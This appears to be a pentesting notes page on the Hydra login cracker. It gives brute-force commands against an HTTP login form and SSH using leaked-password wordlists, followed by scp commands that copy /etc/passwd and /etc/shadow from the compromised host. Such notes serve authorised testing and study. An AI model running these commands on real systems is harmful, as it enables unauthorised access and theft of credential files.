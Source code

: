 ```yaml
---
description: >-
  Fast, parallelized, Network Authentication cracker -> support different
  protocols.
---
```


# 🐲Hydra

![](<../.gitbook/assets/image (25).png>)

{% hint style="info" %}
Hydra is based on modules, piece of code that let's Hydra attack specific protocol.
{% endhint %}

### Get info about specific module:

```
hydra -U rdp
```

### Launch 📖**Dictionary Attack** against a service:

```
hydra -L users.txt -P pass.txt <service://server> <options>
```

> \<service;//server>: for example-> \
> \- telne://target.server\
> \- http-get://localhost (pass protected web resource).
>
> \<options>: \
> \-V: show all attempts.\
> \-f stop when first correct creds&#x20;
>
> #### **Attacking an HTTP Log-in form:**

```
hydra crackeme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt -f -V
```

> #### Attacking a server with SSH:

```
hydra 192.168.0.12 ssh  -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f -V
```

> then use the username and pass you got to connect:\
> ssh found\_username@192.168.0.12 \
>
>
> you can use telnet instead of ssh and check with:\
> telnet 192.168.0.12 -l \<found\_username>

### Download files from remote source  (SSH):

```
scp <cracked_username>@<ip>:/etc/passwd .
scp <cracked_username>@<ip>:/etc/shadow .
```

> Secure Copy Protocol (scp), used to download the files from the target machine based on SSH.&#x20;
>
> hence why we bruteforce (or obtain) SSH creds first cuz we will be asked to enter pass when we use it.
